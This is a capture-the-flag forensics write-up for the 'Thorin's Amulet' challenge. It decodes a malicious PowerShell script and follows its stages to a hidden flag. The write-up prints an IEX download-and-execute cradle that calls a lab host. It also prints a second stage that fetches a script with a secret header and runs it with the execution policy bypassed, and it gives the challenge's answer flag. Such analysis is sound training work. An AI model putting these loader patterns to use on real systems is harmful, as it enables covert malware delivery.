

# Thorin’s Amulet

**Creator:** ch4p

**Description:** Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end  Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened?
  Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

**Category:** Forensics

**Difficulty:** very easy

**File:** forensics_thorins_amulet.zip

## Solution 

The provided script included an encoded command: `SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=` 

That decodes to: `IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")`

This shows that the script downloads and executes additional PowerShell from `/update`

Rather than set up DNS resolution, I used the direct IP/port provided by the challenge: `curl http://94.237.53.247:48872/update`

It returned another PowerShell snippet:
```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq

```
This shows a custom header (X-ST4G3R-KEY) is used to fetch the next-stage script.

Recreated the request manually using curl: `curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://94.237.53.247:48872/a541a -o a541a.ps1`

a541a.ps1 was a small decryption routine:
```powershell 
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""

```

This converts the hex string into ASCII to reveal the flag `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`

